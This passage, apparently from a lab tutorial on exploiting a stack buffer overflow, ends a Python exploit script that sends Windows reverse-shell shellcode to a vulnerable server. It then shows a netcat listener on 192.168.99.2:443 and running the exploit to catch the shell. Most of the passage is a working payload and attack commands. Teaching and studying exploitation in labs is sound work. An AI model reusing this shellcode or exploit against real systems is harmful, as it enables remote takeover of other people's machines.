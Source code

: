 ```python
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
buf += b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x63\x02\x68"
buf += b"\x02\x00\x01\xbb\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
buf += b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
buf += b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
buf += b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
buf += b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
buf += b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
buf += b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
buf += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
buf += b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

# send payload
sock.send(buf)
sock.close()
```
{% endcode %}

## Executing Exploit

Let's now fire up a netcat listener on `192.168.99.2:443` to catch a reverse shell incoming from the vulnerable server `192.168.99.3`:

```
nc -lvp 443
```

...and fire our exploit at the server running the vulnerable program:

```
python exploit.py
```

Below shows how netcat receives a reverse shell, concluding that the vulnerable program's stack was successfully overflowed and program's execution flow was subverted, which resulted in our shellcode getting executed, giving us the reverse shell:

![Stack is overflowed and shellcode is executed, resulting in a reverse shell](../../../.gitbook/assets/executing-exploit.gif)

## Finding Bad Characters
